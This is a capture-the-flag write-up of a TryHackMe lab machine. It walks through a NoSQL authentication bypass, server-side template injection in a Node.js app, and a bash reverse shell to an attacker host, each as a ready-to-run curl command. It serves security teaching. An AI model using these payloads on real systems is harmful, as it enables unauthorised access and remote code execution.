




# Do Not Disturb

## Objective

This is the second Boot2Root challenge from [TryHackMe](https://tryhackme.com)'s **Hacker Holidays 2026**.

The objective was to obtain both the **user flag** and the **root flag** by exploiting vulnerabilities on the target machine.

## Investigation Steps

### 1. Enumeration

I began by performing an Nmap scan against the target machine.

```bash
nmap -Pn -sC -sV -oN nmap/initial <IP_ADDRESS>
```

The scan revealed two open ports:

- **22 (SSH)**
- **80 (HTTP)**



After identifying the web server, I visited the website and found a login page.

## 

### 2. NoSQL Authentication Bypass

The Nmap scan indicated that the web application was running **Node.js**, suggesting that it might be using a NoSQL database.

To test for a NoSQL injection vulnerability, I submitted the following request:

```bash
curl -i -s -c cookies.txt \
--data 'username=attendant&password[$ne]=x' \
http://<IP_ADDRESS>/login
```



The payload exploited a NoSQL authentication bypass by using the `$ne` ("not equal") operator, allowing me to authenticate without knowing the user's password.

The request was successful and returned a valid session cookie, which I saved for later use.

---

### 3. Server-Side Template Injection (SSTI)

Using the authenticated session cookie, I tested whether the application's template preview feature was vulnerable to **Server-Side Template Injection (SSTI)**.

First, I verified that template expressions were evaluated by submitting a simple arithmetic expression:

```bash
curl -s -b cookies.txt \
--data-urlencode 'template=<%=7*7%>' \
http://<IP_ADDRESS>/staff/preview
```

The application evaluated the expression successfully, confirming the SSTI vulnerability.

Next, I executed the `id` command to determine the privileges of the application:

```bash
curl -s -b cookies.txt \
--data-urlencode 'template=<%=global.process.mainModule.require("child_process").execSync("id").toString()%>' \
http://<IP_ADDRESS>/staff/preview
```

The output revealed that the application was running as the **poolside** user.

---

### 4. Gaining a Reverse Shell

To obtain interactive access to the target, I started a Netcat listener on my attacking machine.

```bash
nc -lvnp 4444
```

I then leveraged the SSTI vulnerability again to execute a reverse shell payload.

```bash
curl -s -b cookies.txt \
--data-urlencode 'template=<%=global.process.mainModule.require("child_process").exec("bash -c '\''bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'\''")%>' \
http://<IP_ADDRESS>/staff/preview
```

The payload executed successfully, providing a reverse shell on the target machine.

After obtaining access, I navigated to the home directory of the **poolside** user and located the **user flag**.



## Final Thoughts

This challenge demonstrated how multiple vulnerabilities can be chained together to compromise a system. A NoSQL authentication bypass allowed access to the application, which exposed a Server-Side Template Injection (SSTI) vulnerability. Exploiting the SSTI vulnerability enabled arbitrary command execution and ultimately resulted in a reverse shell on the target.

The challenge highlighted the importance of validating user input, securely handling authentication, and avoiding the direct evaluation of user-controlled template data. Proper input validation, secure authentication mechanisms, and sandboxed template engines are essential for preventing these types of attacks.
